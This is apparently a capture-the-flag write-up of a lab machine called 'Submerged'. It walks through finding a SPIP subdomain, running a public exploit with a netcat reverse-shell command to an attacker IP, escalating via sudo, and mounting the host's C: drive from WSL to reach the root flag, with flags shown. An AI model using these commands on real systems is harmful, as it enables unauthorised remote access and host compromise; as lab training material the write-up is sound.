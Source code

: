 ### Challenge Description

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/7994f474-c11f-492b-a928-6e2e19898496)

## Enumeration

The main page seems pretty static with nothing of interest on it, with the exception of this link:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0f777b2d-9d28-49fe-80e7-f0ec0d043838)

Which hides a subdomain that we didn't find by fuzzing `spip.submerged.htb`:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/f8781b29-34dd-4d12-a72f-ec928459d827)

## Foothold

Searching around, we find [this](https://www.exploit-db.com/exploits/51536) public exploit for this app. After we run it, we get a foothold:  

```bash
python3 spipexploit.py -u http://spip.submerged.htb -c 'busybox nc 10.10.14.34 3000 -e bash'
```

We are user `matthew`:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/01d3d98d-1ca9-4dbf-8324-faf8a84e2e7c)

And get the user flag:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/25956e8e-aae5-441e-995b-4d7d70b2680f)

`HTB{SpIP_Abu53_4_RC3}`

A keen eye would observe that matthew is in the sudo group and sure enough, a quick `sudo bash` drops us into a root shell. We have root but no root flag.

## Privesc

Given the hostname, linpeas output and the fact that there is an empty folder in /mnt/c .. it is easy to conclude that this is actually a [WSL](https://learn.microsoft.com/en-us/windows/wsl/) filesystem.

Armed with this knowledge, we can try to mount the C:\ drive of the underlying host OS:  

```bash
mount -t drvfs C: /mnt/c
```

`drvfs` stands for "Driver File System" which is a file system type used by the Windows Subsystem for Linux (WSL).

Now we actually have content in our mount:  

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/9d124c3c-27df-4600-9af5-1d2cabe0a9ab)

We can also navigate to the administrator desktop folder and get the root flag:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/eebd43b2-3e92-42ee-a604-0233dbf24b0f)

`HTB{Pwn1ng_WsL_4_7h3_W1n}`


